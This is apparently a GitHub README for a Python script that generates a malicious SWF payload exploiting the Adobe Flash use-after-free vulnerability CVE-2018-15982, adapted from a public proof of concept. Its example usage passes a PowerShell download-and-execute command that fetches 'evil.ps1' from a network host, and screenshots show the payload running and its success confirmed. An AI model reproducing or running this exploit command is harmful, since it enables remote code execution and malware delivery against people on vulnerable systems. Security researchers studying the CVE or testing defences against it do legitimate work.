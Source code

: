 # Adobe Flash CVE-2018-15982

Script to dynamically create a swf payload for CVE-2018-15982.

The script creates a swf payload which is based off of the PoC payload from https://github.com/smgorelik/Windows-RCE-exploits.

The vulnerability is a use-after-free flaw enabling arbitrary code-execution in Flash.  More information can be found in the links below.
https://threatpost.com/adobe-patches-zero-day-vulnerability-in-flash-player/139629/
https://cve.mitre.org/cgi-bin/cvename.cgi?name=2018-15982


Usage:

```python create_swf.py <command> <output file name>```

Example Usage:

```python create_swf.py "powershell.exe IEX (iwr 'http://192.168.0.32/evil.ps1')" test.swf```
  


## Example


Command to download a file:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/cmd.png)


Executing malicious swf:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/exec.png)

Confirming successful execution:

![alt text](https://github.com/kphongagsorn/adobe-flash/blob/master/images/exec-confirm.png)
